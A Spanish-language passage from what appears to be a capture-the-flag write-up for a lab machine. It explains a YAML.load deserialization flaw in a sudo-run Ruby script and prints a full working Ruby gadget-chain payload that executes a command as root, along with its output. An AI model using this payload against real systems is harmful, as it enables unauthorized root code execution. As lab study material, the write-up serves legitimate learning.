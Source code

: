 ```bash
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Al revisar el código, vemos que usa `YAML.load`, que es vulnerable al ataque de deserialización. Puede leer más sobre los ataques de deserialización de YAML aquí:

- [https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure Deserialization/Ruby.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)

Para que la ejecución de nuestro código sea exitosa, es necesario crear una carga útil en un archivo YAML denominado `dependencias.yml`. Utilizando las referencias proporcionadas, creamos un archivo con el siguiente contenido que nos permitirá ejecutar el comando `id`:

```bash
henry@precious:~$ cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Ejecutamos el binario con el comando `sudo` desde el directorio donde se ubica nuestro archivo `dependencias.yml`.

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
```